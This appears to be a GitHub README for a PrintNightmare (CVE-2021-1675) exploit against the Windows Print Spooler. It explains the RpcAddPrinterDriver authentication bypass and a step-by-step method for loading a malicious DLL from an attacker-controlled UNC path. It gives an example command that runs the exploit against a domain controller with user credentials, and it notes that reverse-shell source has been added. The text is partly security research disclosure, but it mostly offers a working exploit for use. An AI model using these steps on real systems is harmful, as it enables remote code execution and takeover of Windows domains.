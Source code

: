 # 更新内容

新增反弹shell源码

# PrintNightmare 漏洞简介
## PrintNightmare (CVE-2021-1675): Remote code execution in Windows Spooler Service

 

Ten years ago, an escalation of privilege bug in Windows Printer Spooler was used in Stuxnet, which is a notorious worm that destroyed the nuclear enrichment centrifuges of Iran and infected more than 45000 networks. In the past ten years, spooler still has an endless stream of vulnerabilities disclosed, some of which are not known to the world, however, they are hidden bombs that could lead to disasters. Therefore, we have focused on spooler over the past months and reaped fruitfully.

 

The beginning of the research is PrintDemon from which we get inspiration. After digging into this bug deeper, we found a way to bypass the patch of MS. But just after MS released the new version, we immediately found a new way to exploit it again. After the story of PrintDemon, we realized that spooler is still a good attack surface, although security researchers have hunted for bugs in spooler for more than ten years. We started to explore the inner working of Printer Spooler and discovered some 0-day Bugs in it. Some of them are more powerful than PrintDemon and easier to exploit, and the others can be triggered from remote which could lead to remote code execution.

 

CVE-2021-1675 is a remote code execution in Windows Print Spooler. According to MSRC security bullion, this vulnerability is reported by Zhipeng Huo, Piotr Madej and Zhang Yunhai. 

We also found this bug before and hope to keep it secret to participate Tianfu Cup ☹. As there are some people already published exploit video of CVE-2021-1675. Here we publish our writeup and exploit for CVE-2021-1675. 

 

For more RCE and LPE vulnerabilities in Windows Spooler, please stay tuned and wait our Blackhat talks ‘Diving Into Spooler: Discovering LPE and RCE Vulnerabilities in Windows Printer‘. 

 

 

## RpcAddPrinterDriver

Adding a Printer Driver to a Server (RpcAddPrinterDriver)

Let check the MS-RPRN: Print System Remote Protocol about the RpcAddPrinterDriver call.

To add or update a printer driver ("OEM Printer Driver") to a print server ("CORPSERV"), a client ("TESTCLT") performs the following steps.

1. The client can use the RPC call RpcAddPrinterDriver to add a driver to the print server.

2. The client ensures that the files for the printer driver are in a location accessible to the server. For that purpose, the client can share a local directory containing the files, or use [MS-SMB] to place the files into a directory on the server

3. The client then allocates and populates a DRIVER_INFO_2 structure as follows:

   pName = L"OEM Printer Driver";

   pEnvironment = L"Windows NT x86"; /* Environment the driver is compatible with */

   pDriverPath = "\\\\CORPSERV\\C$\\DRIVERSTAGING\\OEMDRV.DLL";315 / 415

   [MS-RPRN] - v20200826

   Print System Remote Protocol

   Copyright © 2020 Microsoft Corporation

   Release: August 26, 2020

   pDataFile = "\\\\CORPSERV\\C$\\DRIVERSTAGING\\OEMDATA.DLL";

   pConfigFile = "\\\\CORPSERV\\C$\\DRIVERSTAGING\\OEMUI.DLL";

4. The client allocates a DRIVER_CONTAINER driverContainer structure and initializes it to contain the DRIVER_INFO_2 structure.

5. The client calls RpcAddPrinterDriver.

   RpcAddPrinterDriver( L"\\\\CORPSERV", &driverContainer );

 

## CVE-2021-1675 Analysis

Clearly, if an attacker can bypass the authentication of RpcAddPrinterDriver. He could install an malicious driver in the print server. In msdn, the client need SeLoadDriverPrivilege to call the RPC. However, this isn’t true. Let check the authentication logical here:

![img](./img/rootcause.png)

ValidateObjectAccess is a normal security check for Spooler Service. But in line 19 and 20, argument a4 is user controllable. So, a normal user can bypass the security check and add an driver. If you are in the domain, a normal domain user can connect to the Spooler service in the DC and install a driver into the DC. Then he can fully control the Domain.

 

## Exploit

But the real attack is not that simple. To exploit the authentication bypass bug, we need to understand what the Spooler service will do when you calling RpcAddPrinterDriver. Suppose you supply there path to the service

​	pDataFile =A.dll

​	pConfigFile =\\attackerip\\Evil.dll

​	pDriverPath=C.dll

 

It will copy A,B and C into folder C:\Windows\System32\spool\drivers\x64\3\new. And then it will copy them to C:\Windows\System32\spool\drivers\x64\3, and load C:\Windows\System32\spool\drivers\x64\3\A.dll and C:\Windows\System32\spool\drivers\x64\3\C.dll into the Spooler service. However, in the latest version, Spooler will check to make sure that A and C is not a UNC path. But as B can be an UNC path, so we can set pConfigFile as an UNC path (an evildll). This will make our evildll Evil.dll be copied into C:\Windows\System32\spool\drivers\x64\3\ Evil.dll. Then call RpcAddPrinterDriver again, to set pDataFile to be C:\Windows\System32\spool\drivers\x64\3\ Evil.dll. It will load our evil dll. Unfortunate, it does not work. Because if you set A, B, C in the folder C:\Windows\System32\spool\drivers\x64\3\. There will be an access conflict in file copy. To bypass this, we need to use the backup feature of driver upgrade. If we upgrade some driver, the old version will be backup into C:\Windows\System32\spool\drivers\x64\3\old\1\ folder. Then we can bypass the access conflict and success inject our evil.dll into spooler service. 

Successfully load our dll:

 ## Usage



```
.\PrintNightmare.exe dc_ip path_to_exp user_name password

Example:
.\PrintNightmare.exe 192.168.5.129 \\192.168.5.197\test\MyExploit.dll user2 test123##
```

 ![img](./img/Result.png)

 ![img](./img/logfile.png)
Tested on windows sever 2019 1809 17763.1518




## Impact

This vulnerability can be used to achieve LPE and RCE. As for the RCE part, you need a user to authenticated on the Spooler service. However, this is still critical in Domain environment. Because normally DC will have Spooler service enable, a compromised domain user may use this vulnerability to control the DC.

 

Here are more hidden bombs in Spooler, which is not public known. We will share more RCE and LPE vulnerabilities in Windows Spooler, please stay tuned and wait our Blackhat talks ‘Diving Into Spooler: Discovering LPE and RCE Vulnerabilities in Windows Printer‘. 

 

## Credit

Zhiniang Peng (@edwardzpeng) & Xuefeng Li (@lxf02942370)
